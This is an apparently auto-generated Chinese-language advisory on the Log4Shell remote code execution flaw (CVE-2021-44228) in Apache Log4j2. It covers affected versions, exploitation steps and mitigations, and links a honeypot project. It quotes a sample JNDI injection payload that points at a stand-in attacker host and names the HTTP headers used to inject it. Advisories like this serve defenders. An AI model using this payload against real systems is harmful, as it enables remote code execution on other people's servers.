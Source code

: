 ## CVE-2021-44228 - Apache Log4j2 Log4Shell 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 极其高危，可导致完全控制受影响的系统

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 应用程序必须使用受影响的 Log4j2 版本，且允许攻击者控制记录的日志消息或日志消息参数。JNDI lookup substitution 必须启用 (2.15.0 之前默认启用)。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2021-44228，也被称为 Log4Shell，是一个存在于 Apache Log4j2 中的远程代码执行漏洞。该漏洞源于 Log4j2 允许在日志消息中使用 JNDI (Java Naming and Directory Interface) 查询。当 Log4j2 尝试解析包含特定格式字符串（例如 `${jndi:ldap://attacker.com/evil}`）的日志消息时，它会尝试通过 JNDI 从指定的 LDAP 服务器检索并执行恶意代码。

**有效性：**
根据漏洞库信息、搜索结果和漏洞利用的广泛性，此漏洞的 POC 代码非常有效。

**投毒风险：**
提供的“漏洞利用代码”仅仅是一个 GNU GPL 协议的 LICENSE 文件，本身不包含任何可执行的代码或恶意指令。因此，基于这份文件，投毒风险为 0%。

**利用方式：**
1.  **攻击者注入恶意 JNDI 字符串：** 攻击者需要在应用程序能够记录的任何输入点注入包含 JNDI 查找的恶意字符串。这可能包括 HTTP 请求头（例如 `User-Agent`、`X-Forwarded-For`）、POST 请求参数、WebSocket 消息等。
2.  **Log4j2 记录日志：** 当应用程序使用 Log4j2 记录包含恶意 JNDI 字符串的日志消息时，Log4j2 会尝试解析该字符串。
3.  **JNDI 查找：** Log4j2 会触发 JNDI 查找，尝试连接到攻击者控制的 LDAP 或其他 JNDI 相关服务器。
4.  **远程代码执行：** 攻击者的 JNDI 服务器会返回一个包含恶意 Java 类的响应。Log4j2 会加载并执行该 Java 类，导致远程代码执行。攻击者可以利用此漏洞在目标系统上执行任意命令。

**缓解措施：**
*   升级到 Log4j2 的修复版本（2.16.0 或更高版本，或者 2.12.2、2.12.3 或 2.3.1）。
*   如果无法升级，可以设置 `log4j2.formatMsgNoLookups` 为 `true` 来禁用消息查找，或者删除 `JndiLookup` 类。

综上所述，CVE-2021-44228 是一个极其严重的安全漏洞，利用方式简单，影响范围广泛，需要立即进行修复。

**项目地址:** [thomaspatzke/Log4Pot](https://github.com/thomaspatzke/Log4Pot)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)